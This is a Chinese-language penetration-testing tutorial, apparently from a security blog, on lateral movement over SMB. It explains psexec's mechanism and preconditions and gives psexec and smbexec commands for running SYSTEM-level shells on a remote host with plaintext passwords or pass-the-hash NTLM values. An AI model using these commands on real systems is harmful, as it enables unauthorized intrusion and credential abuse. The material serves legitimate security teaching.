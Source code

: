 [![img](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/202402170559530.png)](https://storage.tttang.com/media/attachment/2023/05/09/653b3593-d5d7-42e1-aed6-f30a98025ef0.png)

# [SMB 协议利用](#toc_smb_1)

## [psexec](#toc_psexec)

psExec 是微软官方提供的一个 Windows 远程控制工具，可以根据凭据在远程系统上执行管理操作，并且可以获得与命令行几乎相同的实时交互性。该工具在 MSF 框架中也有集成。

psexec 是 windows 下非常好的一款远程命令行工具。psexec 的使用不需要对方主机开方 3389 端口，只需要对方开启 admin$共享 (该共享默认开启)。但是，假如目标主机开启了防火墙，psexec 也是不能使用的，会提示找不到网络路径。由于 PsExec 是 Windows 提供的工具，所以杀毒软件将其列在白名单中。

**PsExec 的基本原理**：

-   通过 ipc$连接，释放二进制文件 psexecsvc.exe 到目标
-   通过服务管理 SCManager 远程创建一个 psexec 服务，并启动服务
-   客户端连接执行命令，服务端通过服务启动相应的程序执行命令并回显数据
-   运行结束后删除服务

**psexec 的使用前提：**

-   对方主机开启了 admin$ 共享，如果关闭了 admin$共享，会提示：找不到网络名
-   对方未开启防火墙或放行 445 端口
-   如果是工作组环境，则必须使用 administrator 用户连接（因为要在目标主机上面创建并启动服务），使用其他账号 (包括管理员组中的非 administrator 用户) 登录都会提示访问拒绝访问。
-   如果是域环境，即可用普通域用户连接也可以用域管理员用户连接。连接普通域主机可以用普通域用户，连接域控只能用域管理员账户。

用法：

```bash
psexec.exe -accepteula \\192.168.1.131 -u Administrator -p 123qwe@ -s cmd.exe 
# -accepteula 禁止弹出许可证对话框 
# -s 以 SYSTEM 权限启动进程
```

如果已经建立 IPC 连接，那么可以直接使用 psexec 连接远程主机

```bash
psexec.exe -accepteula \\192.168.1.131 -s cmd.exe
```

或者不提取 shell，直接用目标系统的 cmd.exe 的/c 选项在目标主机上执行命令，并得到回显（与前面的 at 命令相似）

```bash
PsExec.exe \\192.168.1.131 <Command>
PsExec.exe \\192.168.1.131 cmd.exe /c "ipconfig"
PsExec.exe \\192.168.1.131 -u Administrator -p 123qwe@ cmd.exe /c "ipconfig"
```

## [smbexec](#toc_smbexec)

**无需先 ipc 链接**，明文或 hash 传递（第三方库）

```bash
smbexec uf9n1x/administrator:123qwe@@192.168.1.131
smbexec ./administrator:123qwe@@192.168.1.131
smbexec -hashes :$HASH$ ./admin@192.168.1.131
smbbexec -hashes :$HASH$ domain/admin@192.168.1.131
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131
smbexec -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131
```
